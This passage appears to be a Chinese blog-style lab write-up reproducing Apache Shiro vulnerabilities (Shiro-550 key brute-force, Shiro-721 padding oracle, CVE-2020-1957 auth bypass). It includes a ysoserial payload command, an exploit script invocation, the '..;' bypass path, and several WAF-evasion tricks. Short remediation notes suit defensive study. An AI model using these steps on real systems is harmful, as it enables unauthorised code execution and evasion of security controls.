
点击 “检测当前密钥”=>“爆破密钥” 成功出现密匙，然后我们点击 “检测当前利用链”、“爆破利用链及回显”，就可以看到检测日志模块，出现了 “发现构造链: xxxx 回显方式： xxx ”，并提示我们请尝试功能区利用

命令执行模块深入对应命令就成功的进行 RCE 了，内存马模块，同样一键注入然后对应远控工具连接复现文章给出了操作方法
多种工具复现
# 漏洞修复
- 使用高版本的
shrio 不用 1.2.4 - 加密不使用公开密匙，保证密匙安全性
# Shiro-721 CVE-2019-12422
shiro 721 反序列化漏洞复现与原理以及 Padding Oracle Attack 攻击加解密原理
Apache Shiro < 1.4.2 在用户进行登录的时候 Shiro 提供 RemenberMe 功能，可以存储 cookie ，期间使用 AES-CBC 对称加密模式进行加解密，加密的 key 是系统随机生成的无法爆破
# Padding Oracle Attack（填充提示攻击）
如果输入的密文不合法，类库则会抛出异常，这便是一种提示。攻击者可以不断地提供密文，让解密程序给出提示，不断修正，最终得到的所需要的结果。只根据我们输入的初始向量值和服务器的状态去判断出解密后明文的值，这就是填充提示攻击，针对 CBC 模式，而不是某一个加密算法；任何分组加密算法，只要使用了 CBC 模式，都会受到影响。此类加密算法包括 AES 、 DES 、 3-DES 能够 ** 在不知道密钥的情况下，** 解密任意密文，或者构造出任意明文的合法密文
# 漏洞原理
通过 Padding Oracle 加密生成的攻击代码来重新构造一个恶意的 rememberMe 字段，重新请求网站，进行反序列化攻击，最终导致任意代码的执行，攻击者无需知道 rememberMe 的加密密钥
# Docker 搭建环境
1
2
3
4
5
| git clone https:
cd Shiro-721/Docker
docker build -t shiro-721 .
docker run -p 8080:8080 -d shiro-721
|

搭建还真废力，在 git 命令行构建的容器 Docker 里面不能使用，于是删除重新构建才成功

# 漏洞复现
1
2
3
|
java -jar ysoserial-all.jar CommonsBeanutils1 "touch /tmp/0day" > payload.class
|
shiro721Git 环境 + 复现
利用已知用户密码登录并抓包，将其中的 remember 字段复制下来输入到工具中进行利用，本质感觉还是利用算法填充爆破密匙，再利用密匙生成新的 rememberMe cookie ，我们使用这个 cookie 替换原数据包中的 cookie 登录后服务端会对其进行反序列化执行命令，从而创建 0day 文件造成命令执行
1
2
3
4
5
6
7
8
9
10
| python shiro_exp.py http:
yAmdluN8Y40K7yewnF+xq+s4I5UMwRKqkLsosoPLSO/rGM80KA0wBKD4kLlXqaJ4VnIijbztK
Jld8Srb336wNwlUH+Hc/02+ZnaRq3vlUp8BHhWf3X1UVrGzusihcFZPMyNYbk7+DOtF20685
Ab797ndD+NEdazFBxeerA+YFshgSs/8qrwkjm9xk2S4MdQyAiUyZ5WjiRUENFhg0c9vH/0J67
Pdsmo/beniYMRppPKkpylvy8WRqPOTOb/CGJXs3IArbKpIwQ+zfbj3K6bNmHwF36mrjIcPbk
P7K56eR04uTuYM04jLm/7ssCZ1wCd8xORbXK+3le/2gEpe7M+47XqECURHrXdMzhIm9JVOt3
OPGOf4ddWScJQxtEQJUozoeXMCUPjKTBu0/W5tGzRY4nAvUg4+vYVxr06T8oC9Rgwunrth8N
qylp8NtgLhHrPffRU5wbtlzW68uuX2Af/Lxwz5pG4b/f8CYWY38dTlSC7NqFtYp5un7WZAV
0hmr098 payload.class
|

我的命令一直无法成功的执行，构建的 Shiro721 容器附带了 exp 利用文件


# 漏洞修复
- 需要爆破得到
key ，可以对短时间内多次访问的 IP 实行封禁 - 升级至安全版本
- 关闭
rememberMe 持久化登录功能
# CVE-2020-1957 未授权访问
Apache Shiro 认证绕过漏洞 CVE-2020-1957 漏洞
# 漏洞原理
Spring Boot 中使用 Apache Shiro 进行身份验证、权限控制，可以构造路径利用 Apache Shiro 和 Spring Boot 对 URL 的处理的差异化，绕过 Shiro 对 Spring Boot 中 Server 权限控制实现未授权


1
2
3
4
5
| 1. 登录页面抓包,访问 /admin 发包
2. 响应返回302 选择302 并跳转到登录页面
3. 回到网站页面构造恶意请求/xxx/..;/admin/ 发包即可绕过 进入管理员页面
|

# Shiro 有 key 无链思路
Shiro 无依赖链 —Commons Beanutils_shiro 有 key 无构造链
# JRMPClient
JRMP 是 Java 中用于远程过程调用（ RPC ）的协议，它允许在不同的 Java 虚拟机（ JVM ）之间进行方法调用和对象传输
文章显示利用 JRMPClient 远程调用配合 CommonsBeanutils2_18 利用链
实战｜记一次 shiro 有 key 无常规链的打法 JRMPClient 监听
工具利用文章
# 绕 WAF
绕 WAF 根本是让 WAF 解析不了但是发送到后端可以正常解析
第 91 篇：shiro 反序列化漏洞绕 waf 防护的方法总结（上篇
# HTTP 请求随机
shiro 反序列化绕 WAF 之未知 HTTP 请求方法
修改正常的 HTTP 请求方法为随机字符， 添加垃圾字符这种方法和 ** Web ** 应用中间件有关，部分中间件不适用

# HTTP 请求方法置空
tomcat 中间件将请求方法置空也是可以正常发包并显示执行结果的，这种 ** 畸形的数据包在 **** WAF ** 设备会被放行，因为不被解析，绕过也是跟中间件有关， Weblogic 中间件不适用

# Shiro 数据包添加脏 / 空数据
RememberMe 数据包记住我字段添加特殊脏数据仍然是可以正常发包的，如 、` 这种特殊符号， 原因是 ** shiro ** 组件处理特殊符号会替换为空，或是使用 TAB 换行功能也是可以执行命令


# Host 头域名变 IP 地址
甲方公司购买的是 waf/云waf 或只对特定的网站域名进行防护 并没有对域名解析出的 ** IP ** 防护
我们可以 ping 此域名得到 IP , 在 BP 数据包的 Host 头进行替换

# Base64 解码绕 WAF
文章中测试了各个语言对于 base64 解码的情况，如果是 shiro 在 Base64 编码后生成的 cookie 再写入新的垃圾字符，发送到后端如果 WAF 不解码，但是后端对垃圾字符忽略仍然可以触发 paylaod 这也是核心
各个语言 Base64 编码绕过 WAF
1
2
3
4
5
| 针对情况:
1. waf不能解码垃圾字符，但是后端可以解码顺利绕过,后端可以忽略这些垃圾字符
2. waf虽然解码,但是只解码可以解码的,恶意的payload还是会被后端解码
|
